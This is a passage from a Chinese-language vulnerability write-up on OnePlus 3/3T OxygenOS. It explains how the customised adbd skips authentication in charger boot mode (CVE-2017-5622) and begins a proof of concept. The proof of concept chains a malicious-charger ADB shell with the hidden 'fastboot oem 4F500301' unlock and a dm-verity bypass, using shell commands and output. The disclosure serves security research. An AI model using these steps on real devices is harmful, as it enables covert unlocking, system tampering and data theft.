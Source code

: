 因此我们推测，如果OxygenOS系统使用了adbd，那么ro.adb.secure值应该为0，然而事实并非如此：



```
android:/ $ getprop ro.adb.secure
1
android:/ $
```

因此，我们判断OnePlus 3/3T的OxygenOS系统使用了定制版的adbd！由于我们无法获得系统源码，因此我们需要研究从二进制层面研究一下。使用IDA反编译系统镜像，我们可以看到如下信息：



```
__int64 sub_400994()
`{`
[...]
  if ( !(unsigned __int8)sub_440798("ro.adb.secure", 0LL) )
    auth_required_50E088 = 0;
  getprop("ro.wandrfmode", &amp;v95, &amp;byte_4D735C);
  if ( !(unsigned int)strcmp(&amp;v95, &amp;a0_1) || !(unsigned int)strcmp(&amp;v95, &amp;a1_1) || !(unsigned int)strcmp(&amp;v95, &amp;a2) )
    auth_required_50E088 = 0;
  getprop("ro.boot.mode", &amp;v94, &amp;byte_4D735C);
  if ( !(unsigned int)strcmp(&amp;v94, 'charger') )
    auth_required_50E088 = 0;
[...]
`}`
```

我们可以很清楚地看到，OnePlus使用了定制版的adb，使得系统在充电启动模式下时，auth_required值为0（这里顺便提一下，上述代码中的ro.wandrfmode与CVE-2017-5623漏洞有关）。

<br>

**四、漏洞利用**

那么我们可以如何利用这个ADB接口呢？首先，我们应该注意到，即使我们获得了一个shell，我们也无法访问用户数据，因为此时分区处于非挂载和加密状态。然而，我们可以通过“reboot bootloader”命令重启设备，进入fastboot模式，利用CVE-2017-5626漏洞替换boot或者system分区！我们还需要利用CVE-2017-5624漏洞来消除篡改system分区所引起的任何警告信息。如果设备的bootloader已经处于解锁状态，我们甚至用不上CVE-2017-5626漏洞。

回顾一下，CVE-2017-5626漏洞（使用“fastboot oem 4F500301”命令）可以允许攻击者无视OEM Unlocking限制条件，在未经用户确认和不擦除用户数据条件下使用fastboot方式解锁设备，同时，设备在运行此命令后仍会报告自身处于锁定状态。单独使用这个漏洞可以获得内核代码执行权限，但屏幕上会有5秒左右的警告信息。CVE-2017-5624漏洞允许攻击者使用fastboot方式禁用dm-verity，dm-verity防护功能可以防止system分区被篡改。

**PoC 1：恶意充电器获取root shell及内核代码执行权限（CVE-2017-5622/6）**

受害者将处于关机状态的设备连接至恶意充电器，此时攻击者能够获得一个ADB会话（CVE-2017-5622），可以重启设备进入fastboot：



```
&gt; adb shell
android:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:shell:s0
android:/ $ reboot bootloader
&gt; fastboot devices
cb010b5a        fastboot
```
